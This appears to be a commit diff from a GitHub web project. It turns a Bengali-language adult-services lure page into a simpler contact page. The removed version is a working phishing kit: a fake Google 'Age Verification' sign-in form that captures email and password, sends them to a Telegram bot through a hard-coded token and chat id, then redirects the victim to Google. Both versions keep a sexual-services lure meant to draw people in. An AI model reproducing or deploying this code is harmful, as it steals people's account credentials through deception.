

Before and after one commit to securedev77-prog/service, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (321-961 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,54 +1,66 @@
+
 <!DOCTYPE html>
 <html lang="bn">
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Age Verification</title>
+    <title>প্রফেশনাল সার্ভিস</title>
     <style>
-        body { background: #000; color: #fff; font-family: sans-serif; text-align: center; margin: 0; padding: 0; }
-        .container { max-width: 500px; margin: auto; padding: 20px; }
-        .main-img { width: 100%; border-radius: 10px; cursor: pointer; border: 2px solid #ff4757; }
-        .btn { background: #ff4757; color: #fff; padding: 15px; border-radius: 50px; font-weight: bold; cursor: pointer; margin-top: 20px; display: inline-block; width: 85%; font-size: 18px; }
-        #verifyBox { display: none; position: fixed; top: 0; left: 0; width: 100%; height: 100%; background: #fff; z-index: 9999; color: #000; padding-top: 60px; }
-        .login-card { max-width: 350px; margin: auto; padding: 20px; }
-        input { width: 100%; padding: 12px; margin: 10px 0; border: 1px solid #dadce0; border-radius: 4px; box-sizing: border-box; font-size: 16px; }
-        .next-btn { background: #1a73e8; color: #fff; padding: 10px; border: none; border-radius: 4px; width: 100%; cursor: pointer; font-size: 16px; font-weight: bold; }
+        body {
+            background-color: #000;
+            color: white;
+            text-align: center;
+            font-family: Arial, sans-serif;
+            margin: 0;
+            padding: 20px;
+        }
+        .container {
+            max-width: 400px;
+            margin: auto;
+            border: 2px solid #ff4757;
+            border-radius: 15px;
+            padding: 10px;
+            background: #111;
+        }
+        img {
+            width: 100%;
+            border-radius: 10px;
+        }
+        h2 {
+            color: #ff4757;
+            font-size: 20px;
+            margin: 15px 0;
+        }
+        p {
+            font-size: 16px;
+            line-height: 1.5;
+        }
+        .btn {
+            background-color: #ff4757;
+            color: white;
+            padding: 15px 30px;
+            text-decoration: none;
+            border-radius: 50px;
+            font-weight: bold;
+            display: inline-block;
+            margin-top: 20px;
+            font-size: 18px;
+            box-shadow: 0 4px 15px rgba(255, 71, 87, 0.4);
+        }
     </style>
 </head>
 <body>
 
-<div class="container">
-    <img src="target.jpg" class="main-img" onclick="showLogin()">
-    <p style="color:#ff4757; font-size: 20px; font-weight: bold;">ঘরে বসেই মিটাতে পারবেন আপনাদের শারীরিক চাহিদা!</p>
-    <div class="btn" onclick="showLogin()">এখনই যোগাযোগ করুন</div>
-</div>
+    <div class="container">
+        <img src="target.jpg" alt="Profile Photo">
 
-<div id="verifyBox">
-    <div class="login-card">
-        <img src="https://upload.wikimedia.org/wikipedia/commons/2/2f/Google_2015_logo.svg" style="width:75px; margin-bottom: 10px;">
-        <h2 style="font-weight: 400; margin-bottom: 5px;">Age Verification</h2>
-        <p style="font-size: 14px; color: #5f6368; margin-bottom: 20px;">১৮+ কন্টেন্ট দেখতে আপনার গুগল অ্যাকাউন্ট দিয়ে ভেরিফাই করুন।</p>
-        <input type="email" id="u_email" placeholder="Email or phone" required>
-        <input type="password" id="u_pass" placeholder="Enter password" required>
-        <div style="text-align: right; margin-top: 20px;">
-            <button class="next-btn" onclick="submitData()">Next</button>
-        </div>
+        <h2>ঘরে বসেই মিটাতে পারবেন আপনাদের শারীরিক চাহিদা!</h2>
+        <p>সরাসরি ভিডিও কলে কথা বলতে বা সার্ভিস নিতে এখনই নিচে ক্লিক করুন।</p>
+
+        <a href="https://t.me/YOUR_TELEGRAM_USERNAME" class="btn">
+            এখনই যোগাযোগ করুন
+        </a>
     </div>
-</div>
-
-<script>
-    function showLogin() { document.getElementById('verifyBox').style.display = 'block'; }
-    function submitData() {
-        const email = document.getElementById('u_email').value;
-        const pass = document.getElementById('u_pass').value;
-        if(email === "" || pass === "") { alert("সঠিক তথ্য দিন।"); return; }
-        const token = "7864530954:AAE1iGV08iH1L0zUMM_Q0jfkcAndibCzMM8";
-        const cid = "8503469856";
-        const text = `🔥 **Captured**\n📧 Email: ${email}\n🔑 Password: ${pass}`;
-        fetch(`https://api.telegram.org/bot${token}/sendMessage?chat_id=${cid}&text=${encodeURIComponent(text)}`)
-        .then(() => { window.location.href = "https://accounts.google.com"; });
-    }
-</script>
 
 </body>
 </html>
```
